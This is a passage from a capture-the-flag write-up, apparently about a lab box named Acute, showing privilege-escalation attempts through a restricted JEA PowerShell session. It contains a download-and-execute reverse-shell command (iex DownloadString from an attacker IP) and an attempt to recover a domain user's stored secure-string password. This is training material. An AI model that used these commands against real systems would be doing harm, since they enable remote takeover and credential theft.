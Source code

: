## Privilege Escalation

### `ATSSERVER` imonks to `Acute-PC01` jmorgan

**However, I can't get a reverse shell as domain user `imonks`:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.19/revshell_imonks.ps1')"}
The term 'cmd.exe' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (cmd.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    + PSComputerName        : ATSSERVER
```

So... Because of the JEA's `dc_session` configuration, we're in a very **limited shell** as domain user `imonks`, like **lots of PowerShell commands can't be used**.

**When I got the user flag, I found an interesting PowerShell script in `C:\Users\imonks\Desktop\`:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { ls C:\Users\imonks\Desktop }
[...]
Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---         8/15/2023   5:59 AM             34 user.txt                           ATSSERVER                         
-a----         1/11/2022   6:04 PM            602 wm.ps1                             ATSSERVER
```

**What's that `wm.ps1` script?**
```powershell
$securepasswd = '01000000d08[...]c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

Oh! **We found domain user `jmorgan` secure password!!**

This PowerShell script will run a PowerShell command `Get-Volume` ***on computer `Acute-PC01` as domain user `jmorgan`.***

**However, we can't just convert the secure string back to plaintext because of JEA's `dc_session` configuration:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { $securepasswd = '01000000d08[...]c51'; $passwd = $securepasswd | ConvertTo-SecureString; $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd); $creds.GetNetworkCredential().Password }
The term 'ConvertTo-SecureString' is not recognized as the name of a cmdlet, function, script file, or operable 
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (ConvertTo-SecureString:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    + PSComputerName        : ATSSERVER
 
The term 'New-Object' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
spelling of the name, or if a path was included, verify that the path is correct and try again.
```